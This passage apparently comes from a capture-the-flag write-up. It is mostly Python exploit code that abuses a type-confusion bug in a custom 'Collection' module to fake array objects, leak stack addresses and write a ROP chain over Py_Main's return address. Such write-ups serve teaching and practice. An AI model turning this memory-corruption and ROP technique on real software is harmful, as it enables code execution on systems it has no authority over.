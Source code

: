```python
ENVIRON = 0xa4f980
leak = fake_array(ENVIRON)
#suprisingly the environ is in Python module instead of libc module 
leak_addr = id(leak) + 0x20
#for the string, the data is +0x20 after the PyObject address
#but in the interactive mode, it seems to be +0x48?

print(hex(leak_addr))

ai_leak2 = Collection.Collection({"arr":[0x2019, 0xbeef], "int":leak_addr})
leak_arr2 = ai_leak2.get("arr") 
#This triggers the vulnerability, and returns an faked array.array object
#also, make sure don't reassign this variable, otherwise the GC might be triggered

print(hex(id(leak_arr2)))
assert id(leak_arr2) == leak_addr

stack_addr = 0
for i in range(0,8):
	stack_addr |= (leak_arr2[i]) << (8 * i)
#leak the stack address

#here we decide to write the ROP into the return address of Py_Main
#which should return to function main, and will be executed when the Python script terminates
#This is good because it will not interfere essential data at the top of the stack,
#and we are sure it will be executed as long as the program terminates
stack_addr -= 0x148 # will point to return address of Py_Main

print(hex(stack_addr))
#-------------------leak address to shoot rop

write = fake_array(stack_addr)
write_addr = id(write) + 0x20
buf_addr = 0xA4FF00 # choose a buffer that will not be used
fake_iov = p64(buf_addr) + p64(0x100)
iov_addr = id(fake_iov) + 0x20
#fake the iov for readv

ai_write = Collection.Collection({"arr":[0x2019, 0xbeef], "int":write_addr})
write_arr = ai_write.get("arr")
print(hex(id(write_arr)))
#basically same as above

rop = create_rop(iov_addr, buf_addr)

for i in range(15 * 8):
	write_arr[i] = rop[i]
#-----------------------write ROP
```

## 49 rev / 0pack ##
